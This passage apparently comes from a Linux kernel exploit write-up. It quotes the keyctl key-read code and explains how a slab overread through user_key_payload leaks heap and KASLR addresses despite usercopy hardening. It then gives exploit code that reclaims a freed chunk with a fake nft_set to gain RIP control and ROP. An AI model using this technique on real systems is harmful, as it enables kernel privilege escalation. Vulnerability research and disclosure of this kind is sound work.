 ```c
	key_data_len = (buflen <= PAGE_SIZE) ? buflen : 0;
	for (;;) {
		if (key_data_len) {
			key_data = kvmalloc(key_data_len, GFP_KERNEL);
			if (!key_data) {
				ret = -ENOMEM;
				goto key_put_out;
			}
		}

		ret = __keyctl_read_key(key, key_data, key_data_len);

		/*
		 * Read methods will just return the required length without
		 * any copying if the provided length isn't large enough.
		 */
		if (ret <= 0 || ret > buflen)
			break;

		/*
		 * The key may change (unlikely) in between 2 consecutive
		 * __keyctl_read_key() calls. In this case, we reallocate
		 * a larger buffer and redo the key read when
		 * key_data_len < ret <= buflen.
		 */
		if (ret > key_data_len) {
			if (unlikely(key_data))
				kvfree_sensitive(key_data, key_data_len);
			key_data_len = ret;
			continue;	/* Allocate buffer */
		}

		if (copy_to_user(buffer, key_data, ret))
			ret = -EFAULT;
		break;
	}
// ...
}
```
Note that the `user_read` function uses `memcpy` to copy the key payload into the kernel scratch buffer. After copying the key contents, the scratch buffer is again copied to the userland by `copy_to_user` function. Thanks to this behavior, slab overread through `struct user_key_payload` is not hindered by `CONFIG_USERCOPY_HARDENED` config.

After this step, the heap leak and KASLR leak for further exploit steps is acquired. 

### 7.5 PC control for ROP

In this section, the exploit achieves RIP control through vtable overwrite and performs ROP for arbitrary kernel code execution, using the heap leaks and KASLR leaks from previous steps.

- [exploit/extra-refined/exploit.c#L1196](../exploit/extra-refined/exploit.c#L1196)
```c
// free the chunk and reclaim with our fake nft_set
if (keyctl(KEYCTL_REVOKE, key, 0, 0, 0) < 0)
{
	perror("keyctl(KEYCTL_REVOKE)");
}
// [1]
sleep(1); // key is released by rcu, let's wait for a while...
if ((key = add_key("user", "yeeeeeeeeeet", buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
	perror("add_key");
```